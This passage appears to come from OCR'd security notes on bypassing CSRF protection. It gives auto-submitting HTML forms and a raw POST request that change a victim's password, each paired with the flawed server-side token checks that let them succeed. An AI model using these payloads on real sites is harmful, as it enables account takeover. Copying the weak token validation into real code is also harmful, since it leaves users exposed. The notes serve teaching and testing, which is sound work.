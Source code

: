          <form method="POST" action="<https://email.example.com/password_change>" id"csrf-form">
         <input type="text" name="new_password" value="abc123">
         <input type="text" name="csrf_token" value="">
         <input type='submit' value="Submit">
        </form>
         <script>document.getElementById("csrf-form").submit();</script>
        </html>
        --------------------------
        # Expected Code
        def validate_token():
         if (request.csrf_token == session.csrf_token):
        		 pass
         else:
        	 throw_error("CSRF token incorrect. Request rejected.")
        [...]
        def process_state_changing_action():
        	 if request.csrf_token:
        		 validate_token()
        		 execute_action()
        ```
        
    - **Weak Token Integriti ( Reuse token )**
        
        ```html
        POST /password_change
        Host: email.example.com
        Cookie: session_cookie=YOUR_SESSION_COOKIE
        (POST request body)
        new_password=abc123&csrf_token=871caef0757a4ac9691aceb9aad8b65b
        ----------------------------------
        <html>
         <form method="POST" action="<https://email.example.com/password_change>" id"csrf-form">
         <input type="text" name="new_password" value="abc123">
         <input type="text" name="csrf_token" value="871caef0757a4ac9691aceb9aad8b65b ">
         <input type='submit' value="Submit">
        </form>
         <script>document.getElementById("csrf-form").submit();</script>
        </html>
        --------------------------------------------------------------
        ## Expected Code
        def validate_token():
         if request.csrf_token:
        	 if (request.csrf_token in valid_csrf_tokens):
        			 pass
        	 else:
        		 throw_error("CSRF token incorrect. Request rejected.")
        [...]
        def process_state_changing_action():
        	 validate_token()
        	 execute_action()
        ```
        